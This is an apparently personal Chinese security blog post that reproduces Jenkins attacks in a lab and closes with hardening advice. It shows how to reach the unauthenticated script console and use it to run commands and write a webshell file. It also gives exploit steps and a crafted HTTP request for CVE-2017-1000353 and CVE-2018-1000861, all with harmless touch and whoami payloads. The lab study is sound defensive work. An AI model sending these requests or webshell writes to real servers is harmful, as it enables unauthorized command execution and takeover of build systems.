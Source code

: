 # Jenkins一些安全问题



#### 漏洞简介及危害
默认情况下 Jenkins面面板中用户可以选择执行脚本界面来操作一些系统层命令,攻击者可通过未授权访问漏洞或者暴力破解用户密码等进入后台管理服务,通过脚本执行行界面从而获取服务器权限。


#### 环境搭建
```bash
# 下载地址： https://www.jenkins.io/download/
# 可以直接下载war包
java -jar jenkins.war    # 运行
# 
wget http://mirrors.jenkins.io/debian/jenkins_1.621_all.deb # 下载
dpkg -i jenkins_1.621_all.deb # 安装
sudo apt-get -f --fix-missing install # 如果有报依赖项的错误时执行行行
service jenkinis start    # 开启Jenkins服务

浏览器器访问http://192.168.0.100:8080/
```


#### 未授权访问测试
访问`http://192.168.0.100:8080/manage`可以看到没有任何限制可以直接访问


#### Jenkins未授权访问写shell
1.点击“脚本命令行”
![](https://image.geoer.cn/Jenkins_consele.png)

2.执行系统命令
```bash
println "whoami".execute().text
```
 3.利用“脚本命令行”写webshell,(`需要一定的权限且知道网站绝对路径`)，点击运行,写入成功
```bash
new File ("/var/www/html/shell.php").write('<?php phpinfo(); ?>');
```
![](https://image.geoer.cn/Jenkins_cmd.png)

4.访问shell.php， 测试成功
![](https://image.geoer.cn/Jenkins_shell.png)



####  CVE-2017-1000353
>这是一个java反序列化漏洞

执行如下命令启动jenkins 2.46.1：
```bash
docker-compose up -d
```
等待完全启动成功后，访问`http://your-ip:8080`即可看到jenkins已成功运行，无需手工安装。

###### 原理
参考：   https://blogs.securiteam.com/index.php/archives/3171

###### 测试
1.生成序列化字符串
```bash
# 参考 https://github.com/vulhub/CVE-2017-1000353
# 首先下载POC生成工具：   https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar

# 执行下面命令，生成字节码文件
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touc /tmp/success" 
# jenkins_poc.ser是生成的字节码文件名
# "touch ..."是待执行的任意命令
# 生成jenkins_poc.ser文件，这就是序列化字符串。
```

2.生成jenkins_poc.ser文件，这就是序列化字符串。
```bash
# 下载 https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py
# Python3执行
python3 exploit.py http://192.168.0.100:8080 jenkins_poc.ser    # 将刚才生成的字节码文件发送给目标
```

3.进入docker容器发现文件创建成功


#### CVE-2018-1000861
Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。
通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。


###### 测试
执行如下命令启动一个Jenkins 2.138，包含漏洞的插件也已经安装：
```bash
docker-compose up -d
```

使用 @orangetw 给出的[一键化POC脚本](https://github.com/orangetw/awesome-jenkins-rce-2019)，发送如下请求即可成功执行命令：
```bash
http://192.168.0.100:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
  public x(){
    "touch /tmp/success".execute()
  }
}

# 请求替换到burp拦截的数据包中
```
数据包如下
```
GET /securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22touch%20/tmp/CVE-2018-1000861_is_success%22.execute()}} HTTP/1.1
Host: 192.168.0.100:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID.a3c40b9a=node010r4vkf3cix27hr5qd9qvw5y41.node0; screenResolution=1920x1080
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

进入容器: `docker-compose exec jenkins bash`,看到 /tmp/success文件创建成功
![](https://image.geoer.cn/Jenkins_poc_ok.png)



#### 配置方面的安全问题
1.允许任意账户注册 带来的安全问题
![](https://image.geoer.cn/Jenkins_reg_any.png)
关闭用户注册
![](https://image.geoer.cn/Jenkins_reg.png)

2.允许匿名访问带来的问题
建议关闭
![](https://image.geoer.cn/Jenkins_nologin.png)




jenkins的日志功能不是很好（可以使用代理，并进行操作的记录）


#### 安全建议
- 使用最新版的jenkins
- 关闭匿名访问
- 关闭用户注册功能
- 用户严格授权
- 最小化插件，相关插件使用最新版
- 使用nginx代理jenkins，不要直接暴露在公网




参考：https://www.secpulse.com/archives/2166.html




---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/jenkins%E4%B8%80%E4%BA%9B%E5%AE%89%E5%85%A8%E9%97%AE%E9%A2%98/  

